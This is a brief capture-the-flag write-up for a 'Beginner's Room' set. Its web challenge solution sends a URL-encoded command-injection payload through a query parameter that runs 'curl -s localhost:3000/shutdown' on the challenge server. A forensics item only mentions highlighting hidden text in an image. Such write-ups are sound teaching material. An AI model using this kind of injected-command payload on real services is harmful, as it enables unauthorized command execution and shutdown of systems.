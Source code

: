 

# Beginner's Room

flag structure: `SIVBGR{xxxxxx}`

## Control Panel [Web]

- modify the `aria-expanded="false"` to true
- then get the file and reverse engineer. Notice the `destroy.py` and the `/shutdown` path


URL encode the a malicious code to curl the localhost to get to `/shutdown`
`https://uscybercombine-s4-control-panel.chals.io/?command=destroy_humans&arg=%63%75%72%6C%20%2D%73%20%6C%6F%63%61%6C%68%6F%73%74%3A%33%30%30%30%2F%73%68%75%74%64%6F%77%6E`


## Secret [Forensics]
- open in kali and left click highlight over your items
- ![alt text](topsecretHiddenMsg.png)
